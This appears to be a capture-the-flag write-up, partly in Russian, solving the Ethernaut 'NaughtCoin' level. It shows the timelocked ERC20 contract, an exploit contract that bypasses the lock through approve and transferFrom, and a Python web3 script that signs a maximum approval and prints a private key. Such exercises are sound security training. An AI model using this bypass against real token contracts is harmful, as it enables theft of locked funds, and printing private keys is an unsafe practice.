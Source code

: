 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel15.svg)

NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

  Things that might help:
- The [ERC20](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md) Spec
- The [OpenZeppelin](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts) codebase

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    // _totalSupply = INITIAL_SUPPLY;
    // _balances[player] = INITIAL_SUPPLY;
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  // Prevent the initial owner from transferring tokens until the timelock has passed
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

Solution:
тут важно знать весь функционал токенов `ERC20`. `modifier lockTokens()` применен только к `transfer`, но не к `transferFrom`, так что просто воспользуемся ей и сольем все токены: 

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface INaughtCoin{
  function transfer(address _to, uint256 _value) external returns(bool);
  function INITIAL_SUPPLY() external returns(uint256);
  function approve(address _spender, uint256 _value) external returns (bool success);
  function transferFrom(address _from, address _to, uint256 _value) external returns (bool success);
} 

contract PWN {
  address instance;
  INaughtCoin coin;
  address owner = 0x095454F216EC9485da86D49aDffAcFD0Fa3e5BE5;
  uint256 balance;
  constructor (address _instance) {
    instance = _instance;
    coin = INaughtCoin(instance);
    balance = coin.INITIAL_SUPPLY();
  }

  function pwn() external {
    coin.approve(owner, balance);
    coin.transferFrom(owner, instance, balance);
  }
}
```

ну и код апрува от лица кошелька контракту на трату токенов: 

```py
import web3, json

ABI = json.load(open('abi.json'))


def approve(token, spender_address, wallet_address, private_key):
  w3 = web3.Web3(web3.Web3.HTTPProvider("https://ethereum-goerli.publicnode.com"))
  spender = spender_address
  max_amount = w3.to_wei(2**64-1,'ether')
  nonce = w3.eth.get_transaction_count(wallet_address)
  print(nonce)
  token  = w3.eth.contract(address=token, abi=ABI)
  #token = w3.(token)
  tx = token.functions.approve(spender, max_amount).build_transaction({
      'from': wallet_address,
      'nonce': nonce
      })

  signed_tx = w3.eth.account.sign_transaction(tx, private_key)
  tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)

  return w3.to_hex(tx_hash)

with open("private_key_dead_one.txt", "r") as f:
    p_key = f.readline()
    print(p_key)

print(approve(
 token = "0x33eD2E19F26bC0C3d6fb233CDBD33021F6bAC6aE",
 spender_address = "0xa14299879f413a9a3850Cb0d7c8c64dF952C0492",
 wallet_address = "0x095454F216EC9485da86D49aDffAcFD0Fa3e5BE5",
 private_key = p_key
))

```

___
When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that `transfer` is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.